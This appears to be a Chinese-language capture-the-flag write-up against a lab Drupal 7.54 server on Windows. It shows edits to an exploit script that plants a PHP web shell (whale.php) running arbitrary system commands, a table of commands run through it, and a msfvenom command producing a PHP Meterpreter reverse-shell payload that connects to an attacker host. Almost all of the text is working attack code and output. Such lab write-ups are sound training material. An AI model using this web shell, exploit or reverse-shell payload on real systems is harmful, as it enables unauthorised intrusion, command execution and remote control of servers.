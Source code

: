 ```
修改第2处，目标ip
$url = 'http://10.10.10.9/';
修改第3处，路径
$endpoint_path = '/rest';

$endpoint = 'rest_endpoint';

$file = [
修改第4处，写入的文件名和内容。
    'filename' => 'whale.php',

    'data' => '<?php echo(system($_GET["cmd"])); ?>'
];

```
## 获取shell
view-source:http://10.10.10.9/whale.php?cmd=whoami

| cmd | result |
|---|---|
| whoami | nt authority\iusr|
| systeminfo | Microsoft Windows Server 2008 R2 |
| dir  | C:\inetpub\drupal-7.54 |
| type C:\Users\dimitris\Desktop\user.txt | xxx |
| powershell $PSVersionTable | 无ps |

## 获取metepreter

msfvenom -p php/meterpreter_reverse_tcp LHOST=10.10.14.7 LPORT=1234 -f raw > payload1.txt

修改php exp
```
$myfile = fopen("payload1.txt", "r") or die("Unable to open file!");

$payload1 = fread($myfile,filesize("payload1.txt"));

$url = 'http://10.10.10.9/';

$endpoint_path = '/rest';

$endpoint = 'rest_endpoint';



$file = [

    'filename' => 'whale1.php',

    'data' => $payload1

];
```
